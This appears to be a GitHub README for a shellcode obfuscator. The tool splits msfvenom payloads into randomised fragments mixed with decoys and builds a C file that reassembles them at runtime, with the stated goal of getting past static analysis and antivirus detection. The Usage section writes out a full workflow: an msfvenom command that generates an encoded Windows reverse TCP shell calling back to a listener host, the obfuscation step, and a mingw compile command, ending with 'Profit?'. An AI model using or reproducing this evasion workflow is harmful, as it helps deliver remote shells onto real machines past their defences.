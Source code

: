 ### WIP
Takes a given shellcode file (generated using msfvenom, for example), shuffle and randomise the shellcode, then generate a C source file to be compiled. 

- Obfuscation Through Memory Manipulation: By using `memcpy` to dynamically assemble the shellcode in memory, effectively hiding the malicious code from static analysis tools.
- Dynamic Reassembly at Runtime: The shellcode is only assembled and becomes recognizable as such during runtime, which helps in evading detection mechanisms that scan executable files before they are run.
- Flexibility: Can be applied to various types of shellcode as long as they are compatible with Windows.

## Usage

Using a shellcode file, using `msfvenom`, for example:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.1 LPORT=9001 -e x86/shikata_ga_nai -i 8 -f c > shellcode.c
```
Use the script to obfuscate the shellcode:

```bash
./shellcode_obfuscator.py -s shellcode.c -dm 30 -c 5 -df mr.bean_wikipedia.html -db 60 -min 3 -max 5 -fm 10 
Shellcode size: 540 bytes
Decoy size: 585859 bytes
Fragment count: 4278
File size: 1433798 bytes
File saved to shell.c
```
Compile:

```bash
i686-w64-mingw32-gcc shell.c -o shell.exe
```
Profit?

## Options

`-s` / `--shellcode-file`: Specifies the input file containing the shellcode. This file should contain the shellcode that will be obfuscated by the script. The shellcode is expected to be in a raw binary or hexadecimal format.

`-o` / `--output`: Designates the output file name for the generated C source code. If not specified, the script defaults to creating a file named `shell.c`. This file will contain the obfuscated shellcode.

`-c` / `--chunks`: Sets the number of chunks into which the shellcode will be split. The script divides the shellcode into this specified number of parts for obfuscation. A lower number results in fewer, larger chunks, while a higher number creates more, smaller chunks.

`-df` / `--decoy-file`: Specifies an optional decoy file. The content of this file is used to create additional obfuscated fragments within the generated C source. If not provided, the script will only use randomly generated decoy data.

`-db` / `--decoy-bias`: Determines the likelihood (in percent) that fragments from the decoy file will be used in the generated C source. A higher value increases the probability of using decoy file content in the obfuscation process.

`-dm` / `--decoy-multiplier`: Defines the ratio of decoy fragments to real shellcode fragments. For example, a value of 4 means there will be four times as many decoy fragments as real shellcode fragments. This enhances the obfuscation by adding more non-functional code fragments.

`-min` / `--min-frag-size`: Sets the minimum size for each fragment in bytes. This parameter controls the smallest allowable size for both shellcode and decoy fragments. Smaller fragment sizes can lead to more complex obfuscation.

`-max` / `--max-frag-size`: Specifies the maximum size for each fragment in bytes. It sets the upper limit for the size of the fragments. Larger fragments can reduce complexity but may be less obfuscated.

`-fm` / `--fragment_multiplier`: Affects the length of decoy fragments. This multiplier is applied to the length of decoy fragments, allowing for variability in their size compared to real shellcode fragments. A higher value results in longer decoy fragments.
